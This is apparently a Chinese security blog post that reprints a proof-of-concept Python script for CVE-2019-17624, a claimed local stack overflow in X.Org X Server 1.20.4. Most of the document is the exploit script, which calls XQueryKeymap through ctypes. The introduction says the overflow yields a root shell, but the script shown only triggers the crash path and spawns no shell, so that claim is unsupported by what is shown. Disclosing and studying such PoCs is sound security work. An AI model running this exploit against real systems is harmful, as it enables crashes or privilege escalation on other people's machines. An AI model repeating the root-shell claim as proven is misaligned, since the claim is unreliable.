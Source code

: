 ## CVE-2019-17624-X.Org X Server 1.20.4 - Local Stack Overflow-Linux图形界面X Server本地栈溢出POC

**0x1 简单介绍**  

X Server 是绝大对数[Linux](https://mrxn.net/tag/Linux)发行版和Unix系统的基础图形界面程序，是系统标配。而此程序也是以Root权限启动的，因而成功溢出它而获得的[shell](https://mrxn.net/tag/shell)，也是root权限。  

**0x2 漏洞相关信息**  

```
# 时间: 2019-10-16
 
# 作者: Marcelo Vázquez (s4vitar)
 
# 厂商: https://www.x.org/
 
# 版本: <= 1.20.4
 
# 测试平台: Linux
 
# CVE: CVE-2019-17624

```

 **0x3 POC**   

```python
#!/usr/bin/python
#coding: utf-8
 
# ************************************************************************
# *                Author: Marcelo Vázquez (aka s4vitar)                 *
# *      X.Org X Server 1.20.4 / X Protocol Version 11 (Stack Overflow)  *
# ************************************************************************
 
import sys, time
import ctypes as ct
 
from ctypes import cast
from ctypes.util import find_library
 
def access_violation(x11, current_display):
  keyboard = (ct.c_char * 1000)()
  x11.XQueryKeymap(current_display, keyboard)
 
if __name__ == '__main__':
 
  print "\n[*] Loading x11...\n"
  time.sleep(2)
 
  x11 = ct.cdll.LoadLibrary(find_library("X11"))
  current_display = x11.XOpenDisplay(None)
 
  print "[*] Exploiting...\n"
  time.sleep(1)
 
  try:
    access_violation(x11, current_display)
 
  except:
    print "\nError...\n"
    sys.exit(1)
```


